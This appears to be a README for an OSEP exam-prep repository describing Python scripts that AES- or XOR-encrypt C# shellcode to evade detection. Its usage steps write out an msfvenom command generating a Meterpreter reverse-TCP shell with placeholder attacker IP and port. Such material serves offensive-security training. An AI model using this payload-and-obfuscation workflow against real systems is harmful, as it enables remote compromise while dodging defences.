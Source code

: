 # OSEP
This will eventually become an OSEP code repository. 
For now I am placing 2 python scripts to help out with encrypting your shellcode.  
You have the option of using aes256 OR xor depending what you are using for your c# shellcode!


I've seen other repos that made the same tool but in c#, I figured i'd try and do it in python and make it a bit easier to copy and paste over to your code!



  ## AES256enc.py What does it do.
This Python script encrypts c# shellcode using AES (Advanced Encryption Standard) in CBC (Cipher Block Chaining) mode.  
It generates a random AES key and IV (Initialization Vector), encrypts the shellcode, and outputs the encrypted data in a format compatible with C# applications.

**Output Results:**
- C# AES Key: The AES encryption key in xx-xx format.
- C# IV Key: The initialization vector (IV) in xx-xx format.
- C# Encrypted Shellcode: A formatted byte array containing the encrypted shellcode and its size, ready to use in C# applications.


## AES256enc.py Requirements
AES256.py uses cryptodome for AES and padding. In order to install you need to run  
`sudo apt update`  
`sudo apt install python3-pycryptodome`


## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 aes256enc.py`
- Shellcode has been formatted to paste into 1 line when you copy it over to visual studio code.
- Copy keys and shellcode into your c# program and enjoy!

  # Xorenc.py what does it do
  This Python script generates a random XOR key and encodes shellcode for use in C# applications. The encoded payload is formatted as a C# byte[] array, ready for integration into your projects.

  ## Features
  - Random XOR Key Generation: Produces a single-byte XOR key for obfuscating shellcode.
  - Shellcode Encoding: Encodes raw shellcode using the generated XOR key.
  - C# Output Formatting: Outputs the encoded payload as a byte[] array, compatible with C#.
 
  ## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 xorenc.py`
- Shellcode has been formatted to paste as 1 line when you copy it over to visual studio code.
- Copy key and shellcode into your c# program and enjoy!



